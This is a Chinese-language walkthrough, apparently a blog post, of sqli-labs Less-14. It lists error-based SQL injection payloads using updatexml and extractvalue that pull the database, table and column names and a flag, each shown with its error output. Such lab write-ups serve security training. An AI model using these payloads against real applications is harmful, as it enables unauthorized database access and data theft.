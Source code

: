 # 原创
：  less-14 in sqli-labs

# less-14 in sqli-labs

**Less-14 报错注入【 " 】**<br/> 1、注入点判断：`uname=admin\&amp;passwd=Dumb`

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'Dumb" LIMIT 0,1' at line 1

```

**updataxml版本**<br/> 2、进行报错注入得到数据库名：`uname=admin" and updatexml(1,concat(0x7e,(select database()),0x7e),1)#&amp;passwd=Dumb`

```
XPATH syntax error: '~security~'


```

3、进行报错注入得到表名：`uname=admin"and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e),1)#&amp;passwd=Dumb`

```
XPATH syntax error: '~hermesflag~'

```

4、进行报错注入得到列名：`uname=admin" and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='hermesflag' limit 1,1),0x7e),1)#&amp;passwd=Dumb`

```
XPATH syntax error: '~flag~'

```

5、进行报错注入得到数据：<br/> `uname=admin" and updatexml(1,concat(0x7e,left((select concat(id,0x7e,flag) from hermesflag),32),0x7e),1)#&amp;passwd=Dumb`

```
XPATH syntax error: '~1~flag{327a6c4304ad5938eaf0efb6'

```

`uname=admin" and updatexml(1,concat(0x7e,right((select concat(id,0x7e,flag) from hermesflag),16),0x7e),1)#&amp;passwd=Dumb`

```
XPATH syntax error: '~af0efb6cc3e53dc}~'

```

**extractvalue版本**<br/> 2、进行报错注入得到数据库名：`uname=admin" and extractvalue(1,concat(0x7e,(select database()),0x7e))#&amp;passwd=Dumb`

```
XPATH syntax error: '~security~'

```

3、进行报错注入得到表名：`uname=admin" and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e))#&amp;passwd=Dumb`

```
XPATH syntax error: '~hermesflag~'

```

4、进行报错注入得到列名：`uname=admin" and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='hermesflag' limit 1,1),0x7e))#&amp;passwd=Dumb`

```
XPATH syntax error: '~flag~'

```

5、进行报错注入得到数据：<br/> `uname=admin" and extractvalue(1,concat(0x7e,left((select concat(id,0x7e,flag) from hermesflag limit 0,1),32),0x7e))#&amp;passwd=Dumb`

```
XPATH syntax error: '~1~flag{327a6c4304ad5938eaf0efb6'

```

`uname=admin" and extractvalue(1,concat(0x7e,right((select concat(id,0x7e,flag) from hermesflag limit 0,1),16),0x7e))#&amp;passwd=Dumb`

```
XPATH syntax error: '~af0efb6cc3e53dc}~'

```
